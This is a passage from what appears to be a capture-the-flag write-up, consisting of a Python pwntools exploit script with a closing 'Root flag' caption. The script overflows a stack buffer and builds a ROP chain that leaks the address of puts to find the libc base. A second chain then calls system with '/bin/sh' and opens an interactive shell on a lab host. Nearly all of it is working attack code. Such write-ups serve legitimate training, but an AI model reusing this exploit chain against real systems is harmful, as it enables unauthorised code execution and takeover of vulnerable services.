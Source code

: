 ```python
        r.sendline("j&9GCS34MY+^4ud*")
        response = r.recvline()

    # To cause buffer overflow right up till the return address on stack.
    # Then form a ROP chain.
    junk = b"A"*72
    chain = junk
    chain += p64(address_gadget)
    chain += p64(got_puts)
    chain += p64(plt_puts)
    chain += p64(loop)
    r.sendline(chain)
    print(r.recvline())

    # Giving the exit command would cause this function to return, thus transferring
    # control our ROP chain.
    r.sendline("exit")

    print(r.recvline())
    print(r.recvline())
    print(r.recvline())
    print(r.recvline())
    print(r.recvline())

    # The last line received contains the leaked address.
    # We take out the first 8 bytes, i.e. the base address.
    leak = r.recvline(False)[:8]
    leak += b'\x00'*(8-len(leak))
    puts = u64(leak)
    print("Leaked 'puts' address: ", hex(puts))
    print("'puts' offset: ", hex(offset_puts))
    libc_base = puts - offset_puts
    print("libc base address: ", hex(libc_base))

    # We create a new ROP chain to get the shell.
    chain = junk
    chain += p64(address_gadget)
    chain += p64(libc_base + offset_binsh)
    chain += p64(libc_base + offset_system)
    chain += p64(address_gadget)
    chain += p64(libc_base + offset_binsh)
    chain += p64(libc_base + offset_system)
    r.sendline(chain)

    print(r.recvline())
    r.sendline("exit")
    print(r.recvline())
    r.interactive()

if __name__ == "__main__":
    r = remote("192.168.1.10", 10000)
    exploit(r)
```

!["pwned"](/Serial_2/27_image.png)
_Root flag._
